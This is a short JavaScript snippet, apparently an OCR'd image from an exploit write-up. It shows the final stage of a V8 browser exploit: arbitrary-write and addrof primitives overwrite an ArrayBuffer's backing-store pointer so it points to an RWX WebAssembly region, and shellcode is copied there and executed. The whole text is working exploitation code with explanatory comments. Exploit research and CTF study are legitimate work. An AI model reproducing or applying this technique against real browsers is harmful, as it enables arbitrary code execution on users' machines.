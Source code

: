 ```js
// set up a typed array to do writing outside the heap
// the ArrayBuffer exists within the v8 heap, so we can write to it with
// our current arb_w setup
// the backing store ptr points to outside the v8 heap, so we can overwrite
// it with the real address of our rwx region
var buf = new ArrayBuffer(0x100)
var uint8_arr = new Uint8Array(buf)
var buf_addr = addrof(buf)
// offset to backing store ptr at 0x60
var backing_addr = buf_addr + 0x60n

console.log('[+] Writing over ArrayBuffer backing store at 0x' + backing_addr.toString(16))
// overwrite backing store ptr so all uint8_arr access happen in the rwx segment
arb_w(backing_addr, rwx)

console.log('[+] Copying shellcode to rwx segment')
// backing store now points to the rwx segment, copy in our shellcode
for (let i = 0; i < shellcode.length; i++) {
    uint8_arr[i] = shellcode[i]
}
console.log('[+] Shellcode copied, executing')

// run shellcode
wasm_func();
```
